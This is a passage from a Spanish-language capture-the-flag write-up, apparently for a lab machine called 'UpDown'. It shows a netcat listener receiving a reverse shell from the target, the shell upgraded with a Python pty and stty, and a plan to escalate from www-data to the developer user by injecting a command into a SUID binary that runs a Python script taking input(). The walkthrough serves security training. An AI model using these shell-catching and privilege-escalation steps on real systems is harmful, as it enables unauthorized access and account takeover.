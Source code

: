 ```null
nc -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.177.
Ncat: Connection from 10.10.11.177:56572.
bash: cannot set terminal process group (910): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/tmp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@updown:/tmp$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@updown:/tmp$ export TERM=xterm
www-data@updown:/tmp$ export SHELL=bash
www-data@updown:/tmp$ stty rows 55 columns 209
```

# User Pivoting

Dentro del directorio personal del usuario developer, hay dos archivos cuyo propietario es developer y el grupo asignado www-data, por lo que tengo capacidad de ejecución y como es SUID, si consigo inyectar un comando lo haré como ese usuario y podré convertirme en él.

```null
www-data@updown:/home/developer/dev$ ls -la
total 32
drwxr-x--- 2 developer www-data   4096 Jun 22  2022 .
drwxr-xr-x 6 developer developer  4096 Aug 30 11:24 ..
-rwsr-x--- 1 developer www-data  16928 Jun 22  2022 siteisup
-rwxr-x--- 1 developer www-data    154 Jun 22  2022 siteisup_test.py
```

Al mostrar las cadenas de caracteres imprimibles del binario, se puede ver que está ejecutando con python el script que está en este directorio

```null
strings siteisup
```

El contenido es el siguiente:

```null
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```
